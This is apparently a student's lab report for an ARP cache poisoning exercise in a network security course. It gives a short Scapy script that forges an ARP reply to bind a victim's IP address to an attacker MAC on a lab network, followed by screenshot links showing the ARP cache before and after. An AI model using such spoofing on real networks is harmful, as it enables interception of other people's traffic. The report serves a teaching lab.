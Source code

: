 # ARP Cache Poisoning Attack Lab

## CNS Lab 3

### Aryansh Bhargavan

### PES1UG20CS084

---

#### Task 1 A

**Without ether**

>```py
>#!/usr/bin/python3
>
>from scapy.all import *
>
>arp= ARP( hwsrc = "02:42:0a:09:00:06",
>          psrc = "10.9.0.5",
>          hwdst = "02:42:0a:09:00:69",
>          pdst = "10.9.0.6" )
>ether = Ether()
>packet = ether/arp
>
>sendp(packet)
>```
>
>**Checking ARP Cache Before**
>
> ![image-20220910150324139](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220910150324139.png)![image-20220910150400576](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220910150400576.png)
>
>![image-20220910150535902](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220910150535902.png)
>
>**Checking ARP Cache after**
>
>![image-20220910150804448](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220910150804448.png)![image-20220910150814766](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220910150814766.png)
>
>on deleting
>
>![image-20220910151012009](C:\Users\Aryansh\AppData\Roaming\Typora\typora-user-images\image-20220910151012009.png)
>
>
